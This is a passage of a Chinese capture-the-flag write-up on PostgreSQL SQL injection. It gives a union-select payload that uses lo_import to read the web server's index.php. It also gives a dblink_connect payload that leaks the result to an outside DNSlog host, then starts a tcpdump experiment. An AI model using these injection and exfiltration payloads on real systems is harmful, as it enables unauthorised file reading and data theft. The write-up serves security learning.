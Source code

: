 >
>  服务器端的`lo_import`和 `lo_export`函数和客户端的那几个有着显著的不同。 这两个函数在服务器的文件系统里读写文件， 使用数据库所有者的权限进行。 因此，只有超级用户才能使用他们。相比之下，客户端的输入和输出函数在客户端的文件系统里读写文件， 使用客户端程序的权限。客户端函数不需要超级用户权限。
> `lo_read`和`lo_write`的功能通过服务器端调用可用， 但是服务器端函数名不同于客户端接口，因为他们不包含下划线。你必须作为`loread`和`lowrite` 调用这些函数。 
>
> 在将服务器端lo_import和lo_export函数授权给非超级用户时需要仔细考虑安全隐患。 具有此类权限的恶意用户可以轻松地将其变为超级用户（例如，通过重写服务器配置文件），或者可以攻击服务器的其余文件系统，而无需获取数据库超级用户权限。 因此，对这两个函数的权限授予必须谨慎。



回到题目中来，lo_import方法可以读取文件为postgres对象，原准备利用lo_export写文件，可是应该是没有权限

我们先包含`index.php`看看源码

```
./?f=gyy' union select (select lo_import('/var/www/html/index.php')),'2' --
```

**请注意！请注意！请注意！**错误写法：

`./?f=gyy' union select 1,(select dblink_connect('host=' || (select lo_import('/var/www/html/index.php')) || '.xxxx.ceye.io user=a password=a dbname=a')) --`

表面上确实返回了oid

![DNSlogoid](cqb2021/image-20210201200309775.png)

但是，在 dblink下 lo_import只是在vps上的 生效，并没有实际包含，在方式三会有实验证明，在最后有对注入点的解释。

然后接下来发现，这里利用DNSlog进行信息外带还有的问题是要遵循DNS协议，最大位数不超过63位，且不能有任何特殊符号及空格回车之类的，只能用`substring`函数一段一段截取，还得`replace`替换字符，可以完成但非常麻烦，不推荐使用。



### 方式三：数据库外联

为了更好理解，下面先进行实验测试，dblink下 lo_import只是在vps上的 生效，并没有实际包含，详情可见如下

---

#### 实验

服务器或本地起一个pgsql服务，可以安装，也可以docker起一个记得开端口映射，然后将其中的` postgresql.conf `中设置`listen_addresses = '*'`以监听。然后运行tcpdump监听端口流量

```
sudo tcpdump -nX -i eth0 port 5432
```

默认端口为5432
